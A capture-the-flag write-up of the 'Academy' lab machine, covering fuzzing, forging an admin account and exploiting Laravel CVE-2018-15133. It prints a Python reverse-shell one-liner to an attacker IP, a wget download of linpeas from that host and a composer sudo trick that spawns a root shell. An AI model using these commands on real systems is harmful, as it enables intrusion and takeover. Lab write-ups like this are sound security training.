 Academy
==========================================
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy.jpeg)  
Short retelling
----
* Use Gobuster to find admin.php page
* Register new user with admin rights using Burpsuite
* Find some hidden page and look for some vulnerabilities
* Use CVE for Laravel and get reverse-shell
* Find a first user password in the web page directory
* Find a second user password in log files
* Check for allowed commands with sudo rights for user
* Find a way to get root using composer with sudo rights  

Enumeration
--------------
Let's start with scanning open ports using Nmap
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Nmap.PNG "Scan results")
We can see three open ports with SSH, HTTP and Mysqlx services  

We need to add academy.htb in /etc/host and then we can explore the web page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20web.PNG)

After register a new user we can see content of main page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20login.PNG)
There are nothing interesting on it

Using gobuster for directory bruteforce didn't give results but wfuzz with following command showed admin.php page
````
wfuzz -z file,/usr/share/wordlists/wfuzz/general/common.txt -u http://academy.htb/FUZZ.php --hc 404
````
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/wfuzz.PNG)

There is roleid parameter in registry form request. Some experiments with it let us register an administrator user.
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Burp%20register.PNG)
****
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Adm%20register%20new.png)

Foothold
----------------------
Now we can login as created user on admin.php
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Academy%20louch%20panel.PNG)

There is interesting web page dev-staging-01.academy.htb, we can add it to /etc/host and check its content
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/Admin%20panel.PNG)

After some search on the page i noticed "laravel.log" on exception message and then found CVE-2018-15133 that allows to execute code on a vulnerable laravel application 

There are several exploits for this CVE, i'll use this [python sctipt](https://github.com/aljavier/exploit_laravel_cve-2018-15133)
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel.PNG)

We need API_KEY to exploit the application, luckily we can find it at the dev-staging page
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/app_key.PNG)

Now we can execute some code in interractive mode using the exploit
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/pwn_laravel_int.PNG)

There is python3 on the system and we can get revers-shell using following command:
``````
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.8",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
``````
Now we are in the system as www-data  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/whoami.PNG)

User1
------------
Using the recursive grep command in the web-app directory to find some passwords didn't give any results, but there are some hidden files in directory so we can check it and find some password in .env file  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/env%20pas.PNG)

There are several users on the system
```
www-data@academy$ ls /home/
ls /home/
21y4d  ch4p  cry0l1t3  egre55  g0blin  mrb3n
```
Login attempt with the cry0l1t3 user using found password was successed and we got the user.txt flag  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/user%20flag.PNG)

User2
---------
Cry0l1t3 is in the adm group in the system so he can read files in /var/log  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/adm%20group.PNG)

Let's use [LinPEAS.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to find some privilege escalation vector
We need to start http-sever on Kali using following command
````
Python -m SimpleHTTPServer
````
And then we can download the script to the victim system using wget
````
wget http://10.10.14.8:8000/linpeas.sh
````

LinPEAS found mrb3n's password in /var/log/audit log file  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/mrb3n%20pass.jpg)

So now we can login as mrb3n  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/mrb3n.PNG)  

Geting root
--------
Using 'sudo -l' command showed us that mrb3n can run '/composer' as super user

![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/sudo%20l.PNG)  

After some googling i found [GTFOBins ./composer page](https://gtfobins.github.io/gtfobins/composer/) and found out that if we can run /composer as super user we can then use following commands to get root privileges:

````
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
````
And now we are root  
![alt_text](https://github.com/Healops/Writeups/blob/main/Academy/Images/root.PNG)
